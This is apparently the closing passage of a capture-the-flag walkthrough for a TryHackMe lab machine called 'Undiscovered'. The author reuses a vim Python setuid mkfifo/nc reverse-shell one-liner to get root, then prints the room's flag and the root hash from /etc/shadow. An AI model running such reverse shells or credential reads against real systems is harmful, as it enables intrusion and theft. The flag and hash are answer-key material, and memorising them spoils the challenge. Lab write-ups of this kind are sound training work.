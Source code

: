 There is a `.viminfo` file in our home directory. In the last few lines of it, there is an interesting line:

~~~
leonard@undiscovered:~$ cat .viminfo 
[REDACTED]

> :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")

[REDACTED]
~~~

Now this is easy. Just run `vim.basic` and then execute the command above except we need to change the IP to ours. First open a listener (`rlwrap nc -lvnp 4242`) and then run the following commands:

~~~
leonard@undiscovered:~$ vim.basic
:py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4242 >/tmp/f")
~~~

Now we get a root shell on our machine:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.**.**] from (UNKNOWN) [<MACHINE IP>] 49198
# id
uid=0(root) gid=1002(leonard) groups=1002(leonard),3004(developer)
~~~

## Root's Password Hash

Now we can navigate to `/root` directory, but we don't need to. There is a flag there that we don't need, but here you go:

~~~
# cat /root/root.txt
  _    _           _ _                                     _ 
 | |  | |         | (_)                                   | |
 | |  | |_ __   __| |_ ___  ___ _____   _____ _ __ ___  __| |
 | |  | | '_ \ / _` | / __|/ __/ _ \ \ / / _ \ '__/ _ \/ _` |
 | |__| | | | | (_| | \__ \ (_| (_) \ V /  __/ | |  __/ (_| |
  \____/|_| |_|\__,_|_|___/\___\___/ \_/ \___|_|  \___|\__,_|
      
             THM{8d7b7299cccd1796a61915901d0e091c}
~~~

What we need is root's password hash which can be found in `/etc/shadow`:

~~~
# grep "root" /etc/shadow
root:$6$1VMGCoHv$L3nX729XRbQB7u3rndC.8wljXP4eVYM/SbdOzT1IET54w2QVsVxHSH.ghRVRxz5Na5UyjhCfY6iv/koGQQPUB0:18508:0:99999:7:::
~~~

Answer: `$6$1VMGCoHv$L3nX729XRbQB7u3rndC.8wljXP4eVYM/SbdOzT1IET54w2QVsVxHSH.ghRVRxz5Na5UyjhCfY6iv/koGQQPUB0`

# D0N3! ; )

Thanks to the creator(s) for this challenging room!

Hope you had fun and learned something.

Have a g00d 0ne! : )
